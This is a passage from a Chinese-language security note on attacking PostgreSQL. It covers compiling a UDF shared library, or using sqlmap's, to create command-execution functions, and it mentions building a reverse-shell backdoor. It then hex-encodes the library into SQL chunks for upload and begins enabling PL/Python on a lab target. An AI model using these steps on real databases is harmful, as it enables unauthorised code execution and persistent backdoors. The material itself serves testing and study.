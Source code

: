 8.2 以上版本,需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的

\- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

 

可以参考 No-Github/postgresql_udf_help

```postgresql
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

#### PL/Python 扩展

PostgreSQL 可以支持多种存储过程语言，官方支持的除了 PL/pgSQL，还有 TCL，Perl，Python 等。

 

默认 PostgreSQL 不会安装 Python 的扩展,这里我手动在靶机上安装下进行复现

```postgresql
select version();
```

先看下版本, pg 14

 

搜索下有没有对应的 plpython3u 版本安装

```postgresql
apt search postgresql-plpython
```

 

有,那么直接装

```postgresql
apt install postgresql-plpython-14
```

 

安装完毕后记得注册下扩展

```postgresql
create extension plpython3u;
```
